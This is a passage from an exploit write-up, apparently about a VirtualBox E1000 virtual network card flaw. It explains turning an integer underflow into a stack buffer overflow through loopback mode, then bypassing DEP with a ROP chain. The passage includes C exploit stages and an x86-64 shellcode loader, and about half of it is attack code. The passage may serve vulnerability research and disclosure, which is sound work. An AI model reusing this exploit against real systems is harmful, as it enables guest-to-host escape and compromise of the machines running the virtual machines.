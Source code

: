It has been said that in order for the integer underflow not to lead to the stack buffer overflow, certain E1000 registers should been configured. The idea is that the buffer is being overflowed in e1kHandleRxPacket function which is called while handling Tx descriptors in the loopback mode. Indeed, in the loopback mode the guest sends network packets to itself so they are received right after being sent. We disable this mode so e1kHandleRxPacket is unreachable.

### DEP 繞過
We have bypassed ASLR. Now the loopback mode can be enabled and the stack buffer overflow can be triggered.

```c
void stage_2_overflow_heap_and_stack_buffers(void* mmio, void* tx_ring, uint64_t vboxdd_base) {
    off_t buffer_pa;
    void* buffer_va;
    alloc_buffer(&buffer_pa, &buffer_va);

    stage_2_set_up_buffer(buffer_va, vboxdd_base);
    stage_2_trigger_overflow(mmio, tx_ring, buffer_pa);

    free_buffer(buffer_va);
}

void stage_2_main(void* mmio, void* tx_ring, uint64_t vboxdd_base) {
    printk(KERN_INFO PFX"##### Stage 2 #####\n");

    e1000_enable_loopback_mode(mmio);
    stage_2_overflow_heap_and_stack_buffers(mmio, tx_ring, vboxdd_base);
    e1000_disable_loopback_mode(mmio);
}
```

For now, when the last instruction of e1kHandleRxPacket is executed the saved return address is overwritten and control is transferred anywhere the attacker wants. But DEP is still there. It is bypassed in a classical way of building a ROP chain. ROP gadgets allocate executable memory, copy a shellcode loader into and execute it.

### Shellcode
The shellcode loader is trivial. It copies the beginning of the overflowing buffer next to it.

```asm
use64

start:
    lea rsi, [rsp - 0x4170];
    push rax
    pop rdi
    add rdi, loader_size
    mov rcx, 0x800
    rep movsb
    nop

payload:
    ; Here the shellcode is to be

loader_size = $ - start
```
